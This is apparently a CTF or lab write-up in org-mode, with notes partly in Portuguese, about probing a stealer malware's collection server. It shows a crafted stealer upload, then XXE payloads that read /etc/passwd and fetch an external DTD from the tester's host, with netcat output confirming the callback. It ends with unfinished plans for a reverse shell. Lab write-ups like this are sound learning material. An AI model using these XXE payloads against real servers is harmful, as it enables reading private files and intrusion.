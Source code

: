 #+title: Data Dome
#+author: gabriel

* intro
According to information from our cyber security team, the computer of the manager of an organization we serve was infected with malware. Our malware analysis team identified a malware known as 'Stealer' malware. In addition, we found an IP address through which the malware was communicating. Your task is to collect information about the malware gang from this IP address.

* initial tests
#+begin_src xml
POST /api/data HTTP/1.1
Host: 172.20.1.124
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/xml
Content-Length: 759

<?xml version="1.0"?>
<UserData>
  <UserInformation>
    <UserName>gabriel</UserName>
    <Country>Canada</Country>
<ZipCode>
61
</ZipCode>
<Location>
Br
</Location><CurrentLanguage>
br
</CurrentLanguage>
<IPAddress>
127.0.0.1
</IPAddress>
<ScreenSize>
12
</ScreenSize>
<OperationSystem>
lINUX
</OperationSystem>
<LogDate>
12/12/2001
</LogDate>
<AvailableKeyboardLayouts>
dsad
</AvailableKeyboardLayouts>
<Hardwares>
fsad
</Hardwares>
<Antiviruses>
eset
</Antiviruses>
  </UserInformation>
 <Passwords>
    <Password>
      <URL>
http://localhost</URL>
      <Username>
gabirle</Username>
      <Password>
admin123</Password>
      <Application>
zabbix</Application>
    </Password>
  </Passwords>
</UserData>
#+end_src

*REsponse* ->
#+begin_src sh
HTTP/1.1 200 OK
Date: Fri, 17 Oct 2025 18:59:18 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Vary: Accept-Encoding
Content-Length: 102
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/xml

<Response><Success>Data successfully processed and saved.</Success><Data>
127.0.0.1
</Data></Response>
#+end_src

More tests for XXE vulnerability
#+begin_src sh
POST /api/data HTTP/1.1
Host: 172.20.10.99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/xml
Content-Length: 165

<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://10.8.58.60:8888">
  %dtd;
]>
<foo></foo>
#+end_src

*Result* ->
#+begin_src sh
[16:35][]~ ✮ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 172.20.10.99 54334
GET / HTTP/1.0
Host: 10.8.58.60:8888
#+end_src

-----

Com este payload estou recebendo a request em meu python server, preciso evoluir isto para algum tipo de shell, para então conseguir o reverse shell
#+begin_src sh
<?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % dtd SYSTEM "http://10.8.58.60:8888/p.dtd"> %dtd; %error; ]><foo></foo>
#+end_src

Tentando algo com ->
#+begin_src sh
<?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % dtd SYSTEM "http://10.8.58.60:8888/p.dtd"> %dtd; ]>
<UserInformation><UserName>%error;</UserName><Country>BR</Country></UserInformation>
#+end_src

As requests chegam até o python server, porém estes payloads com dtd não estão funcionando ainda, vou continuar tentando nisso.
